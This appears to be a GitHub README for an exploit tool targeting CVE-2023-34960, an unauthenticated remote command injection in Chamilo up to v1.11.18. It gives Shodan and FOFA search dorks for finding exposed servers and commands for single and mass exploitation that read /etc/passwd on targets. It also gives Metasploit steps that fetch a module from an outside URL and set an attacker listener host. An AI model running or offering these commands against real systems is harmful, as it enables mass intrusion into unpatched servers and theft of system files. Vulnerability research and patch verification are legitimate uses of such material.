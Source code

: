 # CVE-2023-34960
![](https://img.shields.io/static/v1?label=Product&message=Chamilo&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v1.11.*%20up%20to%20v1.11.18&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20injection&color=red)


- [Nuclei Template](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2023/CVE-2023-34960.yaml)
```
nuclei -t CVE-2023-34960.yaml -vv
```

- Shodan dork:
```
http.component:"Chamilo"
```
- FOFA dork:
```
body="content=\"Chamilo 1"
```
## Install
```
pip install -r requirements.txt
```
## Usage
```
usage: exploit.py [-h] [-u URL] [-f FILENAME] [-c COMMAND] [-t THREADS]
                  [-o OUTPUT]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL address (without 'http://' prefix)
  -f FILENAME, --filename FILENAME
                        File containing URLs
  -c COMMAND, --command COMMAND
                        Command to execute (optional)
  -t THREADS, --threads THREADS
                        Maximum number of concurrent threads
  -o OUTPUT, --output OUTPUT
                        Output file for saving the results
# Single scan.
python3 exploit.py -u target_IP -c 'cat /etc/passwd'

# Mass scan.
python3 exploit.py -f list_ip.txt -c 'cat /etc/passwd'
```
## Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Chamilo CVE-2023-34960/chamilo_unauth_rce_cve_2023_34960.rb
```
```
cp chamilo_unauth_rce_cve_2023_34960.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```
```
msfdb reinit; msfconsole -q
```
```
use exploitsexploits/linux/http/chamilo_unauth_rce_cve_2023_34960.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
